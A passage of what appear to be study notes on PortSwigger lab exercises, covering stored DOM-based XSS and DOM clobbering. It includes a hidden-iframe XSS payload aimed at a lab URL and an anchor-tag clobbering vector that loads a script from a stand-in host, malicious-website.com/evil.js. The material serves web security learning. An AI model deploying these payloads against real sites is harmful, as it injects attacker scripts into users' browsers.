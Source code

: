 The onload then swaps the iframe’s src to the home page (/). The home page’s DOM code reads lastViewedProduct and uses it to build HTML (likely with innerHTML), so the stored <script>print()</script> executes.
A bit stealthier version:
```
<iframe
  src="https://0ace008c03865d6082d0caf600460000.web-security-academy.net/?productId=1&%27%3E%3Cscript%3Eprint()%3C/script%3E"
  style="width:0;height:0;border:0;visibility:hidden"
  onload="if(!this.dataset.hit){
            this.dataset.hit=1;
            location.href='https://0ace008c03865d6082d0caf600460000.web-security-academy.net/';  // top-level nav
          }">
</iframe>
```

# DOM clobbering to enable XSS
DOM clobbering is a technique in which you inject HTML into a page to manipulate the DOM and ultimately change the behavior of JavaScript on the page. DOM clobbering is particularly useful in cases where XSS is not possible, but you can control some HTML on a page where the attributes id or name are whitelisted by the HTML filter. The most common form of DOM clobbering uses an anchor element to overwrite a global variable, which is then used by the application in an unsafe way, such as generating a dynamic script URL.

The term clobbering comes from the fact that you are "clobbering" a global variable or property of an object and overwriting it with a DOM node or HTML collection instead. For example, you can use DOM objects to overwrite other JavaScript objects and exploit unsafe names, such as submit, to interfere with a form's actual submit() function.

A common pattern used by JavaScript developers is:
```
var someObject = window.someObject || {};
```
If you can control some of the HTML on the page, you can clobber the someObject reference with a DOM node, such as an anchor. Consider the following code:
```
<script>
    window.onload = function(){
        let someObject = window.someObject || {};
        let script = document.createElement('script');
        script.src = someObject.url;
        document.body.appendChild(script);
    };
</script>
```
To exploit this vulnerable code, you could inject the following HTML to clobber the someObject reference with an anchor element:
```
<a id=someObject><a id=someObject name=url href=//malicious-website.com/evil.js>
```
As the two anchors use the same ID, the DOM groups them together in a DOM collection. The DOM clobbering vector then overwrites the someObject reference with this DOM collection. A name attribute is used on the last anchor element in order to clobber the url property of the someObject object, which points to an external script.

